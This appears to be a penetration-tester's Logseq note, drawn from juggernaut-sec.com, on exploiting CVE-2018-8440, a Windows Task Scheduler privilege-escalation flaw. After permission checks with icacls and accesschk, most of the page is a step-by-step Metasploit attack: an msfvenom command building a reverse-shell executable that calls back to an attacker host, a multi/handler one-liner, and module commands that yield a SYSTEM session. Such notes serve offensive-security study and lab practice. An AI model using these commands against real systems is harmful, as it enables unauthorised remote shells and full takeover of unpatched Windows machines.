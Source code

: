 public:: true
tags:: metasploit, windows, task, privesc

- #+BEGIN_QUOTE
  *From [juggernaut-sec.com](https://juggernaut-sec.com/scheduled-tasks/#CVE-2018-8440_%E2%80%93_A_Scheduled_Task_Kernel_Exploit)*
  #+END_QUOTE
- `CVE-2018-8440` is a vulnerability that affects Windows versions up to 1803 as well as Windows Server 2008, 2012, and 2016.
- This exploit leverages **weak permissions** of the `C:\windows\tasks` folder as well as **a flaw** in the Task Scheduler API function “SchRpcSetSecurity”. Essentially, this flaw allows a standard user to call the API function and set file permissions on any local file they want.
- You need to check the `C:\Windows\Tasks` folder permissions using either `icacls` or `accesschk`.
  logseq.order-list-type:: number
  You need both *Read* and *Execute* as well as write permissions for the authenticated users group.
	- With `icacls`
	  logseq.order-list-type:: number
	  ```powershell
	  icacls "C:\Windows\Tasks"
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-296.png)
	- With `accesschk`
	  logseq.order-list-type:: number
	  ```powershell
	  .\accesschk64.exe -wvud "C:\WIndows\Tasks"
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-297.png)
- Exploit it via Metasploit
  logseq.order-list-type:: number
	- Create a payload with `mfsvenom`
	  logseq.order-list-type:: number
	  
	  ```bash
	  msfvenom \
	  	-p windows/x64/shell_reverse_tcp \
	      LHOST=172.16.1.30 \
	      LPORT=443 \
	      -a x64 \
	      --platform Windows \
	      -f exe \
	      -o meterpreter64.exe
	  ```
	- Upload the payload to the target machine
	  logseq.order-list-type:: number
	- Start a mult-handler with `msfconsole`
	  logseq.order-list-type:: number
	  
	  ```bash
	  msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 172.16.1.30;set LPORT 443;exploit;"
	  ```
	- From here we need to use the following commands to background our meterpreter session and load up the `CVE-2018-8440` module
	  logseq.order-list-type:: number
	  
	  ```
	  background
	  search ALPC
	  use 0
	  set SESSION 1
	  set LHOST 172.16.1.30
	  set LPORT 8080
	  ```
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-301-1024x746.png)
	- Everything is set and all we need to do is issue the **exploit **command and we should see a second meterpreter session check in as SYSTEM
	  logseq.order-list-type:: number
	  ![](https://juggernaut-sec.com/wp-content/uploads/2022/06/image-302.png){:height 224, :width 747}